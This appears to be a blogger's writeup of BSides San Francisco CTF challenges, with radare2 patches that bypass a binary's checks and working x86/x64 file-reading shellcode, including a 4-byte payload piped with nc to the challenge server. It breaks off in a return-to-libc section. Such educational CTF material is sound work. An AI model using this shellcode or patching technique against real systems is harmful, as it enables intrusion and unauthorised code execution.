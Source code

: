 #+BEGIN_EXPORT html
---
layout: page
title: San Francisco BSides CTF Writeup
excerpt: A quick writeup of San Francisco Bsides CTF
tags:
  - ctf
  - infosec
category: note
---
#+END_EXPORT

* Conference
In my short life, I've seen security conferences move from /"hide the speed,
quick!"/ to /"Security professionals discuss shifting circumstances in information
assurance policy"/.

At no other hacker conference is it clearer than at BSides that the racous
parties and threats of e-violence have been replaced with hushed tones and
artifical lighting.

Still, because of the conference's stature in the Bay Area, many of the
intelligensia of the San Francisco haqr scene undoubtedly will make an appearance.
Lots of drinks were handed out, door security was lax and the hallway track was
as alive as any other similarly sized conference.

I lost interest in the talks fairly quickly, but a friend invited me to play the
CTF and I was immediately impressed. The Bsides crew managed to avoid many of
the lame consecutive challenge formats and structural deficits that have made
other CTFs tiresome. A large number of challenges tackling very diverse
subjects. No one group (even 'professional' CTF teams) managed to secure an
answer to every challenge.

* Writeups

Because so many of these challenges don't have their answers published by their
organizers after the event is settled, it's up to the community to put together
'writeups' of the techniques employed in solving these. 

Here's a few of those.


** NOP
   The =NOP= instruction is microcode for =xchg EAX, EAX=
** easycap
   This challenge doesn't include the flag in a string because it's spread out over
   multiple packets. You can easily extract the flag by 'following' a TCP stream in
   your network packet capture software of choice.

** easy
    This challenge doesn't require you to perform any reverse engineering as the
    the flag is visible as a direct =.symstrtab= entry.

    #+BEGIN_EXAMPLE
zv@syszv >> strings easy-64 | grep -i flag
FLAG:db2f62a36a018bce28e46d976e3f9864
    #+END_EXAMPLE

** Skipper
    In this challenge I'm going to use one of the best disassemblers available
    today: [[http://radare.org/r/][radare]] . It is both free and contains many facilities for modifying
    the binary in various ways (without plugins). (You could also solve this
    challenge with a debugger very easily)

#+BEGIN_EXAMPLE
cp tmp/skipper64 /tmp/skipper64-backup # a backup in case you fubar the binary
r2 /tmp/skipper64
#+END_EXAMPLE

Next, seek the read head to the =main= symbol and tap ~V~ key to bring yourself
into disassembly.

#+BEGIN_EXAMPLE
[0x004026d1]> s main
#+END_EXAMPLE

#+BEGIN_EXAMPLE
    0x004026d1      push rbp                                                                                                                                                                                
    0x004026d2      mov rbp, rsp                                                                                                                                                                            
    0x004026d5      sub rsp, 0x420                                                                                                                                                                          
    0x004026dc      mov dword [rbp - 0x414], edi                                                                                                                                                            
    0x004026e2      mov qword [rbp - 0x420], rsi                                                                                                                                                            
    0x004026e9      mov rax, qword fs:[0x28]                   ; [0x28:8]=0x3200 ; '('                                                                                                                      
    0x004026f2      mov qword [rbp - 8], rax                                                                                                                                                                
    0x004026f6      xor eax, eax                                                                                                                                                                            
    0x004026f8      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x004026ff      mov rdi, rax                                                                                                                                                                            
    0x00402702      call 0x400b3e                              ;[1]                                                                                                                                         
    0x00402707      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x0040270e      mov rsi, rax                                                                                                                                                                            
    0x00402711      mov edi, str.Computer_name:__s_n           ; "Computer name: %s." @ 0x402987                                                                                                            
    0x00402716      mov eax, 0                                                                                                                                                                              
    0x0040271b      call sym.imp.printf                        ;[2]                                                                                                                                         
    0x00402720      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x00402727      mov esi, str.hax0rz__                      ; "hax0rz!~" @ 0x40299a                                                                                                                      
    0x0040272c      mov rdi, rax                                                                                                                                                                            
    0x0040272f      call sym.imp.strcmp                        ;[3]                                                                                                                                         
    0x00402734      test eax, eax                                                                                                                                                                           
┌─< 0x00402736      je 0x40275b                                ;[4]                                                                                                                                         
│   0x00402738      lea rax, [rbp - 0x410]                                                                                                                                                                  
│   0x0040273f      mov rsi, rax                                                                                                                                                                            
│   0x00402742      mov edi, str.Sorry ; "Sorry, your computer's name - %s - is not correct!." @ 0x4029a8                                                    
│   0x00402747      mov eax, 0                                                                                                                                                                              
│   0x0040274c      call sym.imp.printf                        ;[2]                                                                                                                                         
│   0x00402751      mov edi, 9                                                                                                                                                                              
│   0x00402756      call sym.imp.raise                         ;[5]                                                                                                                                         
└─> 0x0040275b      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x00402762      mov rdi, rax                                                                                                                                                                            
    0x00402765      call 0x400c4a                              ;[6]                                                                                                                                         
    0x0040276a      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x00402771      mov rsi, rax                                                                                                                                                                            
    0x00402774      mov edi, str.OS_version:__s_n              ; "OS version: %s." @ 0x4029dc                                                                                                               
    0x00402779      mov eax, 0                                                                                                                                                                              
    0x0040277e      call sym.imp.printf                        ;[2]                                                                                                                                         
    0x00402783      lea rax, [rbp - 0x410]                                                                                                                                                                  
    0x0040278a      mov esi, str.2.4.31                        ; "2.4.31" @ 0x4029ec                                                                                                                        
    0x0040278f      mov rdi, rax                                                                                                                                                                            
    0x00402792      call sym.imp.strcmp                        ;[3]                                                                                                                                         
    0x00402797      test eax, eax                                                                                                                                                                           
┌─< 0x00402799      je 0x4027e3                                ;[7]                                                                                                                                         
│   0x0040279b      lea rax, [rbp - 0x410]                                                                                                                                                                  
│   0x004027a2      mov rsi, rax                                                                                                                                                                            
│   0x004027a5      mov edi, str.Sorry__your_OS_version____s___is_not_supported__n
#+END_EXAMPLE

You can see here that several functions are being called and compared against
builtin strings like /hax0r!~/. The context gives you an idea that it's checking
the hostname, but let's be sure.

#+BEGIN_EXAMPLE
[0x004026d1]> s 0x400b3e
[0x00400b67]> pd 10 @ +64
0x00400ba7      mov edi, 1
0x00400bac      call sym.imp.exit
0x00400bb1      mov ecx, 0
0x00400bb6      mov edx, 0x40291f                          ; "-n"
0x00400bbb      mov esi, str.uname                         ; "uname" @ 0x402922
0x00400bc0      mov edi, str.uname                         ; "uname" @ 0x402922
0x00400bc5      mov eax, 0
0x00400bca      call sym.imp.execlp
0x00400bcf      call sym.imp.__errno_location
0x00400bd4      mov eax, dword [rax]
#+END_EXAMPLE

You can see it's calling =uname= here. Before you start changing your system's
configuration to accommodate, first know it's not possible to set your hostname
to this value.

This means you are going to either have to use a debugger and manually change
the =ZF=, =CF=, =OF= or other condition flags or patch up all of the =je=
instructions.

#+BEGIN_EXAMPLE
[0x00400b67]> oo+ # This makes the binary writable
[0x00400b67]> wao jmp @ 0x00402736
[0x00400b67]> wao jmp @ 0x00402799
...
#+END_EXAMPLE

After this, run the binary and get the flag! ~FLAG:f51579e9ca38ba87d71539a9992887ff~


** TODO Skipper2

** Easyshell 1 
   Both of the easyshell puzzles are warmups who run any shellcode sent on the
   wire. However, you can't use some of the most common shellcode for spawning
=/bin/sh= as there is no remote shell. This shellcode reads the file
   =/home/ctf/flag.txt=

   Compile with ~nasm -f bin flag.asm~

#+BEGIN_SRC asm
BITS 32
section .text
_start:
	xor	%eax, %eax
	xor	%ebx, %ebx
	xor	%ecx, %ecx
	xor	%edx, %edx
	jmp	two

one:
	pop	%ebx
	
	movb	$5, %al
	xor	%ecx, %ecx
	int	$0x80
	
	mov	%eax, %esi
	jmp	read

exit:
	movb	$1, %al
	xor	%ebx, %ebx
	int	$0x80

read:
	mov	%esi, %ebx
	movb	$3, %al
	sub	$1, %esp
	lea	(%esp), %ecx
	movb	$1, %dl
	int	$0x80

	xor	%ebx, %ebx
	cmp	%eax, %ebx
	je	exit

	movb	$4, %al
	movb	$1, %bl
	movb	$1, %dl
	int	$0x80
	
	add	$1, %esp
	jmp	read

two:
	call	one
	.string	"/home/ctf/flag.txt"
#+END_SRC


** Easyshell 2
   Like the prior challenge, you simply just need to write some code to read out
   a file. I used the following.

   #+BEGIN_SRC asm
 BITS 64
 section .text
 _start:
   jmp _push_filename

 _readfile:
   ; syscall open file
   pop rdi ; pop path value
   xor rax, rax
   add al, 2
   xor rsi, rsi ; set O_RDONLY flag
   syscall
  
   ; syscall read file
   sub sp, 0xfff
   lea rsi, [rsp]
   mov rdi, rax
   xor rdx, rdx
   mov dx, 0xfff; size to read
   xor rax, rax
   syscall
  
   ; syscall write to stdout
   xor rdi, rdi
   add dil, 1 ; set stdout fd = 1
   mov rdx, rax
   xor rax, rax
   add al, 1
   syscall
  
   ; syscall exit
   xor rax, rax
   add al, 60
   syscall
  
 _push_filename:
   call _readfile
   path: db "/home/ctf/flag.txt"
   #+END_SRC

** i-am-the-shortest
   This is a challenge designed to mimic the common constraints exploit authors must deal with.

   The premise of the challenge is that you get to execute 5 arbitrary bytes - far
   shorter than even the shortest shellcode could allow for.

   There's undoubtedly dozens of ways the problem can be solved, I've successfully used two:

*** Direct System Call
    Beginning at =0x80487ef=, the core code runs:

    #+BEGIN_SRC asm
  call   80486db <get_flag> ;; where the 'flag' is gotten
  add    esp,0x10
  lea    eax,[ebp-0x8c]
  mov    esi,eax
  mov    ebx,0x1
  sub    esp,0x8
  lea    eax,[ebp-0x8c]
  push   eax
  push   0x8048946
  call   8048500 <printf@plt>
  add    esp,0x10
  sub    esp,0xc
  push   0x8048964
  call   8048550 <puts@plt>
  add    esp,0x10
  sub    esp,0x4
  push   0x5
  push   DWORD PTR [ebp-0x94]
  push   0x0
  call   80484f0 <read@plt> ;; where `read` is called
  add    esp,0x10
  mov    DWORD PTR [ebp-0x90],eax
  mov    edx,0xff
  cmp    DWORD PTR [ebp-0x90],0x5
  ja     804885c <main+0x10c>
  jmp    DWORD PTR [ebp-0x94] ;; here is where it finally jumps in
    #+END_SRC

    The last line is where this =jmp= to attacker-controlled memory actually
    occurs.

    Although the above code snippet doesn't show it directly, it's also important
    to note that the address of the flag read remains stored in =ESI= when the ~jmp
    [ebp-0x94]~ occurs.

    In tandem with the fact that =read= returns the length of the value read in
    =EAX=, you can abuse this by entering a system-call. (Remember, Linux calling
    convention dictates that x86 system call's interrupt vector is given in =EAX=)

    So, in total you need to write shellcode that is only *4* bytes long (rather
    than the maximum permitted of 6), you can have the interrupt vector 'prefilled'
    for you. This leaves you with only two tasks:

    - All you need to do now is find an efficient way to copy =ESI= into =ECX= (the source register for the =read= system call)
    - Actually invoking a system call.

    There are a number of ways to do the above and due to the idiosyncracies of how
    assemblers are written and how opcodes are decoded, it's possible to write many
    different variations of an instruction that vary wildly in length. Anything
    that moves the contents of ESI into ECX will do.

    After this, you need to initiate a system call, you can use either =sysenter=
    or =int 0x80= as both are encoded in 2 bytes.

    All told, the following shellcode should do just fine.
 
    #+BEGIN_SRC asm
  mov cx, si
  int 0x80
    #+END_SRC

    I use and recommend [[http://www.nasm.us/][Netwide Assembler]], although there are other tools like
    [[https://github.com/radare/radare2/wiki/Ragg2][Ragg2]]. To generate assembly without any sort of executable format, you can use
    the following argument switches to assemble and hexdump your shellcode:

    ~nasm -f bin assembly.asm && xxd assembly~

    After this, you can encode it in whichever format you'd like and send it off!

    #+BEGIN_EXAMPLE
 [zv@syszv] /tmp >> echo -en '\x89\xf1\xcd\x80' | \
                    nc i-am-the-shortest-6d15ba72.ctf.bsidessf.net 8890
 The address of 'flag' is 0xfff3bd5c
 Send your machine code now! Max length = 5 bytes.

 FLAG:c9f053110aa0f2d28ed8978e3b03cb01
 v7`v`v7`vyy`v`vp7x%
    #+END_EXAMPLE

*** Return-to-Libc
    This is a little trickier, you need to abuse at least two different tricks here.

   
   
